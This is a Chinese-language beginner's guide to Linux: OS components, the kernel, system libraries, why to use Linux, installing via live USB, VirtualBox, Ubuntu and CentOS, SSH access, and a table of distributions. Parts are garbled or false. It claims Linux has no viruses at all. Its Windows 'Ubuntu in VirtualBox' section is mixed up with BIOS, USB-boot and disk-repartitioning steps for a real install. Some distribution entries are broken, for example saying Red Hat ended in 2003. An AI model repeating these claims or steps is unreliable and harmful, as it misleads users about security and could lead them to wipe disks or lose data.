我们首先需要关注的是 `Linux` 是一个操作系统。它与我们使用的 `Mac OS`、`iOS` 和 `Windows` 等操作系统相似。事实上，地球上流行的平台之一 `Android` 正得益于 `Linux` 操作系统的支持。`Linux` 操作系统是世界上最复杂的操作系统之一。它适用于计算机、平板电脑、手表和手机等。简单来说，操作系统就是一种软件类型，用于管理与你的笔记本电脑或桌面电脑相关的所有硬件资源。简单点说，操作系统将帮助管理硬件和软件之间发生的所有通信。如果你没有操作系统，软件将无法按照你想要运行。你会发现，就像世界上的一些其他操作系统一样，`Linux` 操作系统将由几个不同的部分组成，我们需要处理这些部分。

其中一些包括：

- **引导加载程序 (Bootloader)**：这是一种能够管理我们计算机启动过程的软件。对于大多数用户来说，这只是在首次启动操作系统时弹出来然后消失的启动界面。
- **内核 (Kernel)**：这是被称为 `Linux` 的整体中的一个部分。它是我们系统的核心，负责管理内存、外围设备和 `CPU`。`kernel` 是我们在操作系统中找到的最底层结构。
- **Init 系统 (Init system)**：这是引导用户空间的子系统之一，然后它将控制 `daemons`（守护进程）。这些系统中被广泛使用的系统之一是 systemd，它有时被认为是最有争议的。一旦初始启动从我们使用的初始引导加载程序移交控制权，该系统将负责启动操作系统。
- **守护进程 (Daemons)**：这些是一些后台服务。


它可能包括调度、声音和打印等选项，但你可以根据需要移动它们的位置。它们要么在你启动系统时启动，要么在你有机会登录桌面后启动。

- **Shell（外壳）**：你可能也听过这个词很多次，或者指的是 Linux 命令行，它曾让许多人对 Linux 望而却步（也许因为他们认为自己必须学习一些枯燥的命令行结构才能使用该操作系统）。Shell 是一个命令进程，允许你通过在文本界面中输入命令来控制你的计算机。今天，你甚至可以在不接触命令行的情况下操作 Linux，但正如我们很快看到的，与它交互是至关重要的。
- **图形服务器（Graphical server）**：这将是一个在显示器上显示你想要的所有不同图形的子系统。它被称为 `X` 或 `x server`。
- **桌面环境（Desktop environment）**：这将是你实际上会花费时间与之交互的操作系统部分。它是“桌面”这一比喻的实际实现，由运行在操作系统可见界面上的程序组成，你可以直接与它们交互。这种环境有很多选项供我们选择，包括 `Cinnamon`、`Xfce`、`gnome`、`utility`、`Pantheon`、`Enlightenment` 等。这些环境中的每一个都将内置一些你需要的应用程序，包括游戏、网络浏览器、配置工具、文件管理器等。
- **应用程序（Applications）**：你选择的桌面环境不会提供海量的应用程序供你选择。相反，你必须出去搜索你想要的软件名称，然后找到它们并安装它们以满足你的需求。例如，`Ubuntu Linux` 拥有所谓的 `Ubuntu Software Center`（Ubuntu 软件中心），它可以帮助你从一个中心位置浏览数千万个应用，然后安装你最喜欢的。Linux 提供了数千万种软件，你可以轻松地访问和安装，Windows 和 Mac 也是如此。Linux 在开发者和 IT 公司中非常有名，因为提到 Windows 时，你可能听说过病毒。病毒是一种脱离用户控制运行的程序。现在 Linux 的妙之处在于，它没有所谓的病毒。这是一个非常复杂的操作系统，完全没有你需要下载防病毒软件或寻找某些病毒的说法。这使得 Linux 成为 IT 公司和服务器中极佳的操作系统。

# Linux 操作系统的结构

在我深入介绍构成 Linux 操作系统的不同部分或组件之前，我们需要理解，任何操作系统（无论是 Linux、Windows、Unix 还是 HP 的任何操作系统）都是特定功能的集合或多个组件的集合，每个组件都有其指定的或特定的功能。例如，在公司里我们有多个部门，每个部门都有指定的工作要完成。操作系统也是如此，我们有多个设计用于执行特定功能的组件或软件组件。现在，将讨论 Linux 操作系统内部的所有主要组件。

## Linux 内核（Linux kernel）

`Linux Kernel` 是 Linux 操作系统的核心。它负责硬件之间的通信。在你的系统或任何桌面、笔记本电脑或服务器中，你都有硬件设备，如 `CD 读器`、`USB 端口`、`HDMI 端口`、`LAN 端口` 和内存卡读器。这些都是连接到你笔记本电脑的设备。内核负责使用机器语言与这些设备进行通信。机器语言无非就是 0 和 1。硬件或机器的处理器只理解 0 和 1 组成的一切。内核更负责用它们自身的语言与这些设备进行通信，同时也与软件进行通信。

现在在内核内部，有许多项责任需要履行。内核还负责管理系统资源。在你的系统中，我们知道有 `RAM`（内存）、`Hard disk`（硬盘）、运行的进程，我们还有多个连接到系统的设备，以及多个用户请求。内核管理资源，例如使用多少 `RAM`、分配多少内存、在硬盘的什么位置写入数据、如何处理多个用户请求、为特定目的激活哪个设备。所有这些都属于资源管理。

以下是某些资源：

### 内存管理（Memory Management）
内核检查两个需要内存的应用程序或请求 `RAM` 的应用程序，然后确定给哪个应用程序分配内存，并在分配 `RAM` 时决定哪个应用程序获得优先级。

### 进程管理（Process Management）
进程管理就像我们有多个进程；每个应用程序都有一个运行的后台进程。那么哪个进程获得优先级呢？从技术上讲，内存是分配给进程而不是应用程序的。所以当你运行应用程序时，它会启动多个后台进程，每个后台进程都会分配一些内存。

### 设备管理（Device management）
设备管理就像应该使用哪个设备（例如 `USB 端口`、`摄像头`、`LAN 端口`）以及如何使用它。

### 处理系统调用（Handling System Calls）
处理系统调用就像如果用户执行了多个请求，先处理哪个请求，后处理哪个请求以及第三个处理哪个请求。所有这些责任都归 Linux 内核所有。

## 系统库（System Libraries）
让我们从不同的维度来理解系统库。看，我们有内核，它负责与系统硬件通信。用户会在操作系统上运行多个应用程序。操作系统需要与内核通信。允许每个应用程序直接与内核通信是不可能的，因为每个应用程序都是由不同的人或使用不同的技术开发的。例如，某些应用程序是用 `Java` 开发的，另一些是用 `.Net` 的。因此，要确保所有应用程序都能直接与内核通信变得非常困难或不利。

在这种情况下，操作系统的开发者创建了一些预定义程序。这些程序成为内核和应用程序之间的中介，这样任何开发者就可以轻松地调取系统库并开发自己的应用程序了。

让我们看看系统库如何帮助 Linux 操作系统：
第一个是需要与内核通信的应用程序。每个应用程序都会尝试与内核通信，但如果允许不同的应用程序直接与内核通信将非常困难。因此，在这种情况下，不同的应用程序直接与内核通信时会遇到问题，因为每个应用程序都是不同的开发者使用不同的技术构建或开发的。应用程序开发并没有统一的标准。任何人都可以使用任何技术来开发应用程序。因此，由于我们有使用不同技术开发的多个应用程序，我们需要一个标准流程或标准系统库。因此，操作系统开发者创建了标准化的系统库。这些库无非是操作系统内部提供的预定义程序。它们的作用是，每当他们构建某些应用程序时，就会包含这些库，每个库都有一组函数。所以他们会根据需求包含这些库，而这些库负责与内核通信。

现在当我们查看通信流的过程时，它看起来如下：


## 应用 >> 系统库 >> 内核 >> 硬件

## 系统工具

要运行任何操作系统，我们需要一些工具或预定义的工具来帮助你在操作系统内部进行导航或工作。

当你使用 `Windows` 操作系统时，我们知道我们有多个工具可以帮助我们与操作系统进行交互。

例如，我们有 `Control Panel`（控制面板）、`Command Prompt`（命令提示符），允许我们直接与操作系统进行通信等。

因此，帮助你管理操作系统的命令都属于系统工具。这些不是用户工具。

系统工具和用户工具之间是有区别的。

用户工具就像 `Notepad`（记事本）、`Paint`（画画）和 `MS - Office`等等。

系统工具则是你的 `Control Panel`（控制面板）、`Device Driver Manager`（设备管理器）；所有这些都属于系统工具。

基本上，`Linux`操作系统内部的系统工具是帮助你以标准方式操作系统的命令和工具。

这些是用于更改目录、创建/打开/删除文件、移动文件等命令。

所以所有这些帮助你管理和管理操作系统的命令都属于系统工具。

每当你安装任何操作系统时，系统工具已经由操作系统开发人员开发好了，你只需要使用它们来管理你的操作系统。

## 开发工具

如果你是 `Windows` 操作系统的普通用户，你已经知道 `Windows` 操作系统会定期发布更新，你需要更新你的操作系统。

这些更新无非对操作系统进行的漏洞修复或其他修改，它们可以让你工作得更快或提高操作系统的性能。

当涉及到任何操作系统时，这些开发工具总是可用的；无论是 `Windows`、`Linux` 还是 `UNIX`，都有开发工具。

这些开发者工具帮助开发者创建新的操作系统应用程序。它们是开发者为开发者创建的，以便能够在操作系统内部开发操作系统级应用程序，并确保为每个操作系统发布新更新。

## 终端工具

终端工具是指终端用户使用的工具，如 `Notepad`（记事本）、`Paint`（画画）、`MS Office`、`Media player`（媒体播放器）、`Windows Browser`（Windows 浏览器）、`Web Browser`（网络浏览器）、`PowerPoint`等等。

所有这些由用户使用的应用程序被称为终端用户工具。

## 我为什么应该使用 Linux？

这是很多人第一次听到 `Linux` 系统时会问的问题之一。

他们可能会好奇，既然他们电脑上已经有的、且在购买设备时随附的操作系统运行良好，为什么他们要学习一个完全全新的计算环境呢？

花时间学习一个新系统并看看它是如何工作的真的值得吗？

为了帮助我们回答这个问题，回答其他几个问题是非常重要的，这让我们能了解 `Linux` 系统能为我们做哪些我们的传统操作系统无法做的事情。

例如，你目前使用的操作系统实际上运行得良好吗？

或者你是否一直在处理许多障碍，如恶意软件、病毒、运行缓慢、昂贵的维修费用、许可费和频繁的崩溃？

如果你发现这些是你经常处理的事情，尤其是当你这台电脑使用一段时间后，那么你可能会发现，防止这些某些问题的完美平台将是 `Linux` 系统。

它是所有操作系统中演变并成为最可靠的的系统之一。

当你将所有这些可靠性与零成本结合时，你将获得你所需平台的完美解决方案。没错；你可以免费获得 `Linux` 系统以及随之而来的所有好处。

你可以获取 `Linux` 操作系统并将其安装到任意数量的计算机上，并尽你意愿使用它，而不必担心使用成本是多少、软件费用是多少，你也不需要担心服务器许可。

我们还可以比较一下在 `Linux` 中添加服务器与 `Windows Server 2016` 的成本。

如果你直接从 `Microsoft` 购买而不是其他渠道，标准版的 `Windows` 选项约为 882 美元。

这不包括任何 `Client Access Licenses`（客户端访问许可），以及你认为重要并需要在其中运行的所有其他软件的许可，例如邮件服务器、Web 服务器和数据库。

例如，在 `Windows` 系统上使用 `CAL` 的单个用户将花费你大约 38 美元。

但如果你需要在服务器上让十个人个人一起工作，那么这部分的费用将迅速增加。光是这部分就要花费 380 美元。而且这仅仅是你想要获得的软件许可费用。

但当我们使用 `Linux` 服务器时，情况有所不同。对于 `Linux` 选项，你可以免费获得所有这一切，而且对你来说很容易安装。

事实上，能够添加一个包含所有功能的 Web 服务器（包括数据库服务器），只需要几次点击或几条命令即可完成。

单单这一点，对于某些大企业来说，就足够让其他人转向这个操作系统了。

但还会出现一些其他益处。只要你选择使用它，这个操作系统就会一直运行并为你避开麻烦。

它往往比其他某些系统更好地防御勒索软件、恶意软件甚至病毒。

除非必须更新 `kernel`（内核），否则你不需要频繁重启，而这通常每几年才进行一次。

如果你曾经对正在使用的操作系统感到沮丧，认为它可能并不总是按照你的意愿运行，那么可能是你该使用 `Linux` 操作系统了。它将拥有我们想要的所有优点，而且无论你在过程中连接多少台计算机，它都是免费使用的。

## 开源

当我们开始使用 `Linux` 系统时，将喜欢的另一点是它是开源的。

这意味着它将根据源码许可分发，以便你可以按照喜欢的方式与它工作。

开源出于许多原因将非常有用，但我们发现我们需要关注的几个关键原则，包括：

- 你会发现你有权运行该程序，无论其目的是什么。
- 你会发现你有权研究和学习更多关于该程序如何工作，以及你可以在过程中对其进行任何你想要的更改。
- 你有权重新发布副本，以便你可以为自己的需要多次使用，或提供给也想使用它的邻居。
- 你会发现你有权以你喜欢的方式对其进行某些修改，然后你也可以向其他人分发这些修改的副本。

在使用 `Linux` 系统时，还有一些关键点需要理解，即更深入地了解最初致力于创建这类平台的社区。

毫无疑问，这将成为一个由民所有、为民而服务的操作系统。

这些原则也是人们与其他某些操作系统相比，选择使用这种操作系统的一个重要因素。


这一切都关乎自由，即使用的自由、选择的自由，以及在在此过程中无需担心一系列疯狂的规则和其他问题的自由。

# 第 3 章：安装基础

请注意，在安装某些发行版之前，你可能需要了解你电脑的硬件配置。

例如，如果你选择安装 `Debian`，你将需要关于你的 PC 及其组件的信息，因为该发行版无法识别所有设备。

幸运的是，现在所有的安装程序都能扫描你的电脑并看到每一个连接的硬件元素。

然而，以防发生某些错误，你仍然应该手头留信息。

这样，你就可以在安装过程中进行故障排除，并弄清楚哪里出了问题。

一旦你选择了你的 Linux 发行版，你就需要下载它。

大多数发行版（如果不是全部的话）以 `ISO` 格式提供，并且你可以免费下载。

下一步是将文件刻录到光盘或 U 盘上。

接下来，你需要告诉系统在启动时从光盘或 U 盘启动。

许多电脑在检测到启动盘时会自动启动，但如果设置设置为始终从硬盘启动，有时你可能需要手动开启该设置。

这个问题可以通过更改启动顺序来解决。

你必须访问系统的选项。

在操作系统加载之前，通过按下如 `F10` 或 `DEL` 等按键进入你的系统。

一旦进入了电脑的设置区域，你需要将你的 Linux 启动盘分配为默认启动设备。

确认更改，将你的光盘放入驱动器中（或连接 U 盘），然后重启电脑。

在这一阶段，你可能需要知道是否想在安装 Linux 的同时保留现有的操作系统。

例如，如果你安装了 `Windows` 且不想替换它，你将必须执行几个额外的步骤。

如前所述，如果你计划保留当前的操作系统，你需要做的第一件事是为 Linux 发行版准备一个单独硬盘分区。

目前，你的系统正在使用整个硬盘。

这个过程并不困难，但始终存在意外清空硬盘并丢失所有数据的风险。

这就是为什么在安装任何操作系统之前，备份你所有的文件和数据是一个好好主意。

一旦你有了备份，就可以使用分区应用程序让这个过程变得更简单。

例如，一个名为 `QTParted` 的程序效果很好，并且包含在某些 Linux 发行版中。

许多 Linux 安装程序可以自动处理你的分区。

新分区是通过缩小你当前操作系统的分区大小来创建的。

一旦你准备好安装 Linux，就从安装盘启动电脑并开始该过程。

你有很多需要遵循的步骤，整个设置过程可能需要两个小时。

这取决于你的系统以及你正在安装哪种发行版。

在这一阶段，你实际上只需要遵循屏幕上的指令。

大多数现代、最新的发行版都会通过一个易于遵循的图形用户界面引导你完成。

安装中的一个重要元素涉及硬盘分区。

是的，即使你已经执行了上面的分区步骤。

你只需要使用你已经设置好的分区即可。

许多发行版自带的 `openSUSE` 安装界面应该向你显示需要采取的推荐步骤。

一旦你执行了引导式配置（包括时间和网络设置等基本步骤），你就需要选择想要安装哪些包。

请记住，某些 Linux 发行版被设置为安装某些组件，你将没有选择权。

一旦安装过程完成，重启电脑。

这一步是设置过程的一部分，也是必要的。

现在 Linux 已经准备好运行了。

当你第一次启动系统时，你会发现几个额外的可选步骤，涉及进一步的系统配置以及安装各种软件包和应用程序。

## Linux U 盘

使用 Linux `Live` 盘是探索为你提供的多种类型发行版的好方法。

你不需要经历耗时的安装过程，你也不需要担心对你不熟悉的事物给你当前的系统造成危险。

这就是为什么带有 `Live` 安装的 `CDs` 和 `DVDs` 曾经非常流行。

现在，虽然你仍然可以选择光盘，但大多数人选择更现代的 U 盘。

由于更实用的 `USB` 驱动器，许多人不再安装光驱器了，因为它更快、更容易使用，并且可以存储更多数据。

`Live` 盘最大的问题是它们读取或写入数据时速度缓慢。

另一个问题是你在进行操作系统配置时会遇到困难。

在 `Live` 盘上保存某些更改并不容易。

这就是为什么在这一节中，我们将关注可启动的 U 盘发行版。

可启动的 U 盘发行版已经存在多年，因为这项技术并不新鲜。

然而，直到最近，其中许多版本都存在一些缺点。

最流行的 `Live` 发行版之一可能是 `Fedora`，因为它很容易准备。

安装对你的系统没有任何风险，你可以保留 U 盘上可能任何其他文件，最重要的是它很容易保存你的 Linux 配置。

创建可启动 Linux 盘的最简单方法是利用你当前的系统。

这听起来可能奇怪，但对于初学者来说，使用 `Windows` 执行此过程比输入命令行指令简单得多。

在我们的示例中，我们将关注使用 `Windows`，因为许多人似乎在使用这个系统。

然而，如果你使用的是 `Mac`，步骤几乎相同。

因此，你应该能够自己适应这个过程。

以下是创建 USB 盘需要遵循的步骤：

- 首先，你需要下载 live USB-creator 应用程序。
- 按照其直观的设置指南安装程序。
- 找到安装文件夹并运行应用程序。
- 选择闪存器选项，你可以在 `target device` 下找到它。
驱动器应该显示为类似 `MyDrive` 之类的名称。
- 现在你需要选择 `ISO` 文件的来源。选择下载选项访问它。
- 接下来，你需要选择 `persistent storage`（持久性存储）的大小。
这代表了为安装预留的存储空间。
请记住，应用程序可能会将默认设置为 `0MB`。
你至少应该选择 `400MB`。
- 最后，你可以点击 `Create Live USB` 按钮。

该过程将花费几分钟，最后，你会看到两个新文件夹。

一个名为 `syslinux`，很小，只负责系统启动。

第二个文件夹是 `LiveOS`，它包含了系统并利用你之前设置的存储空间。

你现在可以终止闪盘创建器并尝试 `Live` 盘。

## 虚拟机

`VirtualBox` 是一个虚拟机，最初由 Sun Microsystems 开发，现在归 `Oracle` 所有。

它模拟了一台独立的电脑，每个虚拟机都可以有它自己的应用程序、操作系统以及一系列其他东西。

`VirtualBox` 是测试各种操作系统的理想选择，在这种情况下是在 `Windows` 或 `Mac OS` 电脑上测试 `Linux`。

我们将查看如何在 `Windows` 和 `Mac` 上安装 `VirtualBox`。


## 使用镜像为 VirtualBox 安装 Linux

### Windows

- 前往 VirtualBox 下载页面并找到最新版本；点击它。
- 在下一个页面，寻找以 `.exe` 结尾的文件并下载它——记住你将其保存在电脑的哪个位置。
- 安装程序下载完成后，双击 `.exe` 文件并按照屏幕上的指示将其安装到 Windows 上——请注意，在安装过程中你可能会短暂失去网络连接，因为正在安装虚拟网络适配器。
- 现在你必须重启电脑，你应该会在应用程序中找到 VirtualBox。

从这里开始，你可以运行它并安装任何你想要尝试的其他操作系统。

### Mac OS

- 前往 VirtualBox 下载页面并下载适用于 Mac 的最新版本应用程序。
- 将 `.dmg` 保存到你容易记住的文件位置——确保你下载的是 OS X 宿主机版本。
- 找到该文件并使用可执行文件进行安装。
- 重启电脑，就可以开始使用 VirtualBox 了。

### Windows (安装 Ubuntu)

在按照上述步骤在电脑上安装 VirtualBox 后，你需要下载 Ubuntu Linux 的磁盘镜像。

- 首先，如果你的电脑上还没有安装 `BitTorrent` 客户端，请现在下载一个——`BitTorrent` 是一种允许从其他用户下载的 P2P 应用，可以显著减轻 Ubuntu 服务器的负载。
- 现在前往 Ubuntu 发行网站并下载最新的发布版本——**不要**点击任何 Desktop CD 的链接。你会在页面底部找到完整的链接列表，并确保点击带有 `.iso.torrent` 扩展名的链接——将其下载到你记得的位置。
- 现在将它拷贝到可启动的 USB 盘中。

这里有一点注意——如果你安装了 `WinRAR`，它将自动与你下载的文件关联，并询问你是否想使用 `WinRAR` 提取内容——**不要**使用 `WinRAR` 且**不要**解压 `.iso`。

**重要**——在开始下一步之前，请将你的硬盘内容备份到安全的地方！如果不这样做，你将丢失所有数据！

- 从开始菜单打开 VirtualBox 并点击 `New`——这将打开新建虚拟机向导。
- 点击 `Next` 并为你的虚拟机取名——为了方便起见，请直接使用 `Ubuntu` 或 `Linux`。
- 如果你电脑的内存大于 `1 GB`，请为虚拟机分配最多四分之一——如果少于此，请遵循 `VirtualBox` 的建议。点击 `Next`。
- 点击 `Create New Hard Disk` 然后点击 `Next`。
- 再次点击 `Next`，你将来到设置硬盘类型的屏幕。选择 `Fixed-Size Storage`。
- 如果你打算在虚拟 Linux 中添加软件或安装可能的大文件，请留一些缓冲区；点击 `Create`。
- 虚拟硬盘创建完成后，你需要添加下载的 `.iso` 镜像。点击 `Settings>Storage>CD/DVD Device`。
- 在显示 `Empty` 的地方有一个文件夹图标，点击它。
- 选择你已经下载的 `.iso` 文件并点击 `OK`。
- 现在双击虚拟机，使其启动。
- 你可能会收到大量关于使用客体操作系统的说明和警告——阅读并标记它们，这样它们就不会再次出现。
- 等待 Ubuntu 加载。
- 在安装 Linux 之前，你必须首先更改电脑上的 BIOS 设置——通常在启动电脑时，你会按下 `F1`、`F2`、`F12`、`Escape` 或 `Delete` 。
- 现在重启电脑进入 BIOS 设置，并将启动选项更改为从 USB 启动。
- 现在插上 USB 盘并再次重启电脑。
- 你将看到一个空白屏幕，只有底部有几个 Logo。
- 按任意键，将出现一个新屏幕——选择你想要的语言。
- 现在点击 `Install Ubuntu`。
- 安装程序将启动，你可能会被要求再次选择语言。
- 勾选安装闭源软件的选项。
- 如果你还没有连接 Wi-Fi，现在会要求你连接——你现在不需要做这一步，而且这会让你的安装时间变长，所以忽略它即可。
- 这里有三个选项——选择第一个，然后拖动块选择 Windows 和 Ubuntu 的硬盘大小。你的硬盘现在将进行分区。
- 按照屏幕上出现的问题回答——这些问题都是自言自语的。
- 现在你只需等待 Ubuntu 安装——取决于你电脑的速度，这可能需要花费一小时。
- 重启电脑并拔掉 USB 盘——再次启动时，你将处于运行中的 Ubuntu 环境中。

如果你更改了 Windows 分区的大小，系统会要求进行磁盘检查——这是没有必要的。
回到 `Settings>Storage>CD/DVD` 并检查它是否再次显示为 `Empty` 条目——这将消除每次启动电脑时都要使用 USB 的需求。

### Mac OS (安装 Ubuntu)

当 VirtualBox 安装完成后，你需要下载 `iso`。

- 前往 Ubuntu 下载页面并点击 Mac `iso` 镜像——选择你的地理位置，然后点击 `Begin Download`。确保你保存了文件，而不是打开或挂载它。
- 打开 VirtualBox 并注册它。
- 现在你可以创建一个新虚拟机——点击 `New` 打开向导。
- 点击 `Next` 并为虚拟机输入名称。
- 从操作系统菜单选择 `Linux Ubuntu` 并点击 `Next`。
- 将基础内存设为 `384 MB` 并点击 `Next`。
- 现在你需要点击创建一个新硬盘，这只是一个在现有驱动上占用空间的磁盘——确保你有足够的空间进行操作！
- 接受所有默认设置并点击 `Next`。
- 将 `Create New Virtual Disk Wizard`，点击 `Next`。
- 点击 `Dynamically Expanding Storage` 并点击 `Next`。
- 选择你想让硬盘所在的位置以及大小——`2 TB` 是最大值，尽管 `8 GB` 绰绰有余。
- 点击 `Next` 然后点击 `Finish`。
- 框架已就绪，请确保你已将 `iso` 拷贝到可启动的 USB 或 DVD 中。

VirtualBox 现在将显示你有一个名为 `Ubuntu Linux` 的虚拟机。

- 插入你的 DVD 或 USB。
- 点击 `CD/DVD` 然后勾选 `Mount CD/DVD drive` 框。
- 点击 `ISO Image File`。
- 点击 `No Media` 旁边的，将你的 `iso` 文件拖入其中。
- 点击 `Select` 然后点击 `OK`。
- 点击 `Start`，将一个黑色屏幕——这是一个会话，你现在所做的一切将在虚拟机上进行——如果你想回到 Mac，只需按下空格键左侧的 `Command` 键。
- 点击 `OK`。
- 当 Ubuntu 界面出现时，双击 `Install` 并回答屏幕出现的问题。
- 完成后点击 `Forward`。
- 现在接受 Ubuntu 所在位置的默认值并点击 `Forward`。
- 输入你的个人信息，包括新密码和你的机器名称。
- 选择自动登录还是使用密码，并点击 `Forward`。
- 点击 `Install` 并等待——安装完成后，你会被要求使用密码进入，或者会自动进入 Linux 桌面，取决于你选择了哪种选项。
- Ubuntu 现在将检查更新，因此点击 `Install Updates` 并等待。
- 需要重启你的 Mac，然后你就就绪了。

## 从头安装 CentOS 的步骤

CentOS 是一个稳定的 Linux 发行版，以下是安装方法：

- 前往 CentOS 下载页面并下载 `iso`。
- 现在你需要制作一个可启动驱动器，将 `iso` 传输到格式化的 USB 盘上。要执行此操作，插上 USB 并打开命令提示窗口。

输入以下内容：
```bash
dd if=/iso/CentOS-versionnumber-x86_64-DVD-1602-99.iso of=/dev/sdb
```
确保 USB 盘上至少有 `5 GB` 空间。

- 在桌面上，点击 `Install to Hard Drive`。


- 选择你的键盘类型和首选语言 – 确保你选择了正确的键盘，否则某些按键可能会错乱
- 安装程序的默认设置是选择对硬盘进行`Automatic Partitioning`（自动分区） – 点击`Installation Destination`（安装位置）图标并通过选择`Custom Partitioning`（自定义分区）进行更改
- 选择存储 `CentOS` 的硬盘，然后点击 `Other Storage Options`（其他存储选项）
- 选择允许自行配置分区的选项，然后点击 `Done`（完成）
- 选择 `Standard Partition`（标准分区）
-要在其中一个分区上创建 `Swap Space`（交换空间），请选择创建交换空间的 `File System`（文件系统）并命名为 `swap`。选择 `Reformat`（格式化）
- 现在你需要创建挂载点 – 即根分安装的位置。设置挂载点，并根据需要设置 `Label`（标签）和 `Desired Capacity`（所需容量）。
- 点击 `ext4` 设置文件系统，然后点击 `Reformat`
- 点击 `Done`（完成）并接受你所做的更改
- 点击时钟设置你的时区；点击 `Done`（完成）
- 点击 `Begin Installation`（开始安装）；在过程中，请遵循屏幕上的所有指令，设置你的用户账户和根密码
要执行此操作，点击 `Root Password`（根密码）并输入两次密码；点击 `Done`（完成）
- 创建用户账户时输入详细信息，如果是管理员账户，请确保勾选 `Make This User Administrator`（将此用户设为管理员）和 `Require a Password`（需要密码）选项
- 安装完成后，你将看到一条提示成功的消息；点击 `Quit`（退出）
- 注销并登录你新的 `CentOS` 安装
- 接受 `EULA`（最终用户许可协议），你就可以开始使用了

## 通过网络连接你的 Linux 系统

如果你想通过网络连接你的 Linux 系统，必须使用类似 `SSH` 的工具。

`SSH` 是 `Secure Shell`（安全壳）的缩写，它是最著名的网络协议之一。SSH 的目的是让你安全地连接到网络上的远程机器。

要通过网络连接你的 Linux 系统：
- Windows – 使用 `PuTTY`
- Mac 和 Linux – 在命令行中使用 `ssh`

### Windows
- 打开浏览器并下载 `PuTTY`
- 打开 `PuTTY` 并在正确的框中输入 IP 地址或 `Hostname`（主机名）
- 如果没有提供端口号，请保持默认的 `22`
- 点击 `Data`，然后点击 `Auto-Login Username`（自动登录用户名） – 输入你的用户名
- 要保存会话，点击 `Saved Sessions`（保存会话）框，输入名称并点击 `Save`。将来你可以双击保存的会话来连接。
- 点击 `Open` 即可建立连接。
当你第一次连接到服务器时，`PuTTY` 会询问缓存服务器的主机密钥 – 点击 `Yes`

### Linux 和 Mac
Linux 和 Mac 都已经内置了作为命令行程序的 `SSH` 客户端。要启动它，运行终端：
- Mac – `Applications`（应用程序）文件夹
- Linux – 打开 `Dashboard` 并搜索 `Terminal`（终端）

终端启动后，只需使用 `ssh` 命令即可建立连接。请注意命令是区分大小写的，因此请仅使用小写。

输入 `ssh` 后跟 Linux 服务器上的用户名。
当你第一次连接到服务器时，需要验证主机密钥。输入 `Yes` 继续连接并按 `Enter`。
连接建立后，输入你的密码。要退出连接，输入 `exit` 然后注销。

# 第 4 章：Linux 发行版

Linux 发行版（或“distro”）是一个由内核和其他组件组成的完整 Linux 软件包。有许多发行者整合并分发这些内容，使得最终用户无需进行任何复杂操作。Linux 发行版由操作系统本身以及若干特定的应用程序和库组成，所有内容封装在一个单一的安装文件中。

例如，有许多数据科学家、分析师和机器学习人员使用的科学发行版。它们自带了操作系统，以及他们在开展项目时所需的工具和库。

为什么选择发行版而不是标准安装？仅仅是为了方便。以上述的科学发行版为例，如果没有它，数据科学家将不得不安装许多应用程序，并逐一个地下载和导入他们需要的库。这个过程可能极其耗时，而且完全没有必要。

目前有 288 个 Linux 发行版，且正在逐渐减少。曾达到过 323 个，现在是 288 个。这些发行版针对特定的用户组或功能组，例如开发者、基础设施、多媒体，甚至是普通用户。让我们来看看三种主要的发行版类型：
- 核心发行版。
- 特殊发行版。
- Live CDs。

大多数应用程序都是为桌面用户和商业用户定制的。它包含了更易安装和使用 Linux 的功能、类似于操作系统的桌面发行版（例如类似于 Windows 或 Mac），以及硬件的自动检测/配置。这些发行版让 Linux 在桌面用户中流行起来。

## 主要 Linux 发行版

| 发行版 |  |
| :--- | :--- |
| Slackware | Patrick Volkerding 在 1992 年创建了 `Slackware`，它是最古老的 Linux 发行版。它以无 Bug 和干净而闻名。它运行在 32 位 (`i486`) 和 64 位 (`x86_64`) 架构上。其哲学与 `Arch Linux` 类似。几乎没有缺点，例如应用程序支持数量有限。 |
| Debian | `GNU/Linux` 于 1993 年。今天 `Debian` 由 1000 多名志愿者开发，拥有 50000 多个二进制包。根据 `Distrowatch`，它是可能最大的协作软件项目。 |
| Fedora | `Fedora` 是目前最具创新性的发行版之一。它与著名的 `Red Hat Linux` 关联。2003 年，`Red Hat` 引入了革命性的变化：`Fedora Core`。它作为一种为 Linux 爱好者设计的社区版推出。它提供了卓越的安全性。 |
| Red Hat and CentOS | `Red Hat` 在企业领域处于领先地位。始于 1995 年。它许多创新组件，例如基于 GUI 的安装程序 `Anaconda`、软件包管理器 `RPM` 等。它在 2003 年结束历史，并诞生了 `RHEL`（红帽企业 Linux）和 `Fedora core`。 |
| Gentoo | `Gentoo` 是一种高度灵活的元发行版，允许用户运行各种内核和软件配置。该项目由 Daniel Robbins 于 2000 年引入。 |


## Linux 发行版概述

|  way | 说明 |
| :--- | :--- |
| Arch Linux | Arch Linux 由 Judd Vinet 于 2002 年发布。起初，它被认为是一个存在于中级和高级用户之间的边缘项目。后来，它通过一种名为“滚动发布”（rolling-release）的特性得到了推广。滚动发布意味着操作系统具有不断更新的能力。Arch Linux 拥有极优秀的软件管理基础设施。它包含了从源代码安装软件的能力。其缺点之一是由于偶尔不稳定可能导致崩溃的风险。 |
| Ubuntu | Ubuntu 为桌面用户彻底改变了 Linux。它长期以来非常受欢迎。它于 2004 年发布，目前在 Linux 用户中仍然非常流行。Ubuntu 基于 DEB 包。它通过 `Canonical` 提供长期支持，现在还通过其服务器版支持企业级。Ubuntu 的一些特殊特性是它包含一个可安装的现场 DVD，它支持新技术，让新手可以轻松地适应 Ubuntu 和不同的桌面环境。Ubuntu 的显著缺点之一是缺乏兼容性。 |
| MX Linux | MX Linux 作为 MEPIS Linux 的替代品引入。它设计用于个人用途也适用于商业用途。MX Linux 最受欢迎的特性是它的图形化管理工具，被称为 `MX-Tools`。它对平台具有卓越的支持，对图形驱动具有极佳的兼容性和易性。与 Mint 和 Ubuntu 相比，MX Linux 对新手可能并不友好。它需要时间来适应，它的安装程序和某些工具看起来可能不同。 |
| Mint | Linux Mint 发布于 2006 年。它基于 Ubuntu 设计。该发行版是初学者的最佳选择。Mint 拥有大量的增强功能使其易于使用。它提供了与其他系统的互操作性。因此，它不仅适用于个人使用，也适用于企业。开发者提供三种类型的发布，即官方版（12 月发布）、点版本（根据需要发布，例如修复错误）和每月快照发行版。这使得 Mint 极其稳定。 |
